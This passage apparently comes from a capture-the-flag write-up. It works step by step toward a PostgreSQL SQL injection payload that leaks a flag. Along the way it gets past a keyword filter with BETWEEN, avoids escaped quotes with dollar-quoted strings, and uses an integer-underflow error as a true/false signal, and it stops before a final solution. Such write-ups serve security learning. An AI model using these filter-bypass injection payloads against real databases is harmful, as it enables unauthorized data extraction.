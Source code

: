 How about this?

```sql
SELECT * FROM items WHERE name = E'\\' OR description LIKE '<flag_characters_here>%' AND <integer_underflow_condition>--'
```

Oh, wait... We can't use keywords `LIKE` and `SIMILAR TO` because of the second regex pattern...

Upon researching, we can actually use the **`BEWTEEN` operator** to bypass the second regex pattern:

```sql
SELECT * FROM items WHERE name = E'\\' OR description BETWEEN 'a' AND 'c'--
```

In here, the record will contains records that column `description` are start with from "a" to "c". With this example, we can basically replace the `LIKE` or `SIMILAR TO` keywords with `BETWEEN`.

Ok... I think we can construct our final payload... Well, not yet.

How about the single quote character (`'`)? Since it'll be escaped with a backslash character (`\`), the escape character will make it as an invalid syntax:

```sql
SELECT * FROM items WHERE name = E'\\' OR description BETWEEN \'a\' AND \'c\'--
```

This time, we can't use escape the escape character, because it'll also cause an invalid syntax:

```sql
SELECT * FROM items WHERE name = E'\\' OR description BETWEEN \\'a\\' AND \\'c\\'--
```

Uhh... Can we just use double quote character (`"`)?

Nope. In PostgreSQL, double quote characters are used to mark delimited identifiers, such as table name, column name, and more.

Fortunally for us, PostgreSQL has something called "[Dollar-quoted string constants](https://www.postgresql.org/docs/current/sql-syntax-lexical.html#SQL-SYNTAX-DOLLAR-QUOTING)". Therefore, we can use **dollar-quoted string** without using single quote characters.

Ok, so the final payload is like this?

```sql
SELECT * FROM items WHERE name = E'\\' OR description BETWEEN $$a$$ AND $$c$$ AND -2147483648 - 1--
```

Ah, the integer underflow condition. In the above payload, that condition will cause an invalid syntax. To fix this, we can just use the `BETWEEN` operator:

```sql
SELECT * FROM items WHERE name = E'\\' OR description BETWEEN $$a$$ AND $$c$$ AND -2147483648 - 1 BETWEEN NULL AND NULL--
```

> Note: The `NULL` is to make the `BETWEEN` operator's syntax valid, it could be anything.

Anymore? Oh, wait. The description `BETWEEN` doesn't work in here. If the description string is `foo`, we can't just use `BETWEEN $$f$$ AND $$f$$`. This is because the rest of the string didn't get matched.
